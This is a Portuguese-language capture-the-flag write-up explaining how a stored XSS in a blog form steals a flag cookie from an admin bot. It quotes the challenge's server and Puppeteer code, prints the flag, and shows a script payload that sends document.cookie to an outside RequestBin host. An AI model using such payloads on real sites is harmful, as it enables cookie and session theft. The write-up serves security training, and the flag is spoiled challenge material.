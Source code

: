 # Ganesh Travelers

**Flag:** `{Pl4y1nG_W1tH_XSS_V3ry_fuN}`

Neste desafio, podemos reparar que dentro do blog há um formulário cujos campos permitem injeção de XSS e, portanto, vamos conseguir abusar desta vulnerabilidade para tentar solucionar o desafio.

Analizando o código fonte fornecido para nós, podemos ver que quando um Link é compartilhado, é solicitado que um bot visite nossa URL contendo como Cookie a flag do desafio.

```javascript
// Rota definida no arquivo Server.js
app.post(`/visit`, async function(req, res) { 

    const targetUrl = req.body.target 
    const serverOrigin = process.env.SERVER_URL || 'http://localhost:3333/'
    
    if(!targetUrl || !targetUrl.startsWith(serverOrigin)){
        return res.status(400).json({'message': 'Link inválido!'})
    }

    await visiter.visit(targetUrl);
    
    return res.json({'message': 'Link enviado ao administrador!'})
})

// Script que visita a url compartilhada
async function visit(url) {
	const browser = await puppeteer.launch({ args: ['--no-sandbox']})
	
    var page = await browser.newPage()
	await page.setCookie({
		name: 'flag',
		value: process.env.FLAG || 'flag{admin_s3cr3t_l0l}',
		domain: process.env.SERVER_DOMAIN || 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	await new Promise(resolve => setTimeout(resolve, 2000));
	await page.close()
	await browser.close()
}
```

Com isso nosso objetivo é roubar o cookie definido pelo admin. Primeiro vamos submeter o nosso seguinte payload XSS em algum dos campos do blog:

```html
<script>fetch('https://<meu-id>.x.pipedream.net/c=' + document.cookie)</script>
```

Veja que estamos utilizando um RequestBin para que possamos ter algum local para enviar e recuperar a flag que será enviada pelo administrador. 

Por fim, basta copiar toda a url gerada após o envio do formulário no formulário de Compartilhar Link e aguardar alguns segundos enquanto até a requisição ser recebida no RequestBin.